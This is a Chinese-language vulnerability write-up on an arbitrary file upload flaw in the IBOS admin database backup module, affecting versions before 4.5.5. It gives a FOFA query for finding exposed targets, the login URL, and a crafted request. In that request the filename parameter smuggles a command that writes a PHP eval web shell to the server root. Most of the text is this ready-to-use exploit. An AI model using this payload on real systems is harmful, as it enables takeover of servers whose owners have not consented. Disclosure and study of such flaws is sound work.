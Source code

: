 # IBOS 数据库模块 任意文件上传漏洞

## 漏洞描述

IBOS 后台数据库模块 存在任意文件上传漏洞，攻击者进入后台后可以上传恶意文件控制服务器

## 漏洞影响

> [!NOTE]
>
> IBOS < 4.5.5

## FOFA

> [!NOTE]
>
> body="IBOS" && body="login-panel"

## 漏洞复现

登录页面如下

```
http://xxx.xxx.xxx.xxx/?r=dashboard/default/login
```

![](resource/IBOS-数据库模块-任意文件上传漏洞/media/1.png)

找到数据库备份模块

![](resource/IBOS-数据库模块-任意文件上传漏洞/media/2.png)

提交并抓包

![](resource/IBOS-数据库模块-任意文件上传漏洞/media/3.png)

修改filename参数发送包会上传peiqi.php文件到根目录

```
backuptype=all&custom_enabled=1&method=shell&sizelimit=2048&extendins=0&sqlcompat=MYSQL41&sqlcharset=utf8&usehex=0&usezip=0&filename=peiqi%26echo "<?php eval($_REQUEST[peiqi]);?>">peiqi%PATHEXT:~0,1%php%26peiqi&dbSubmit=1
```

![](resource/IBOS-数据库模块-任意文件上传漏洞/media/4.png)
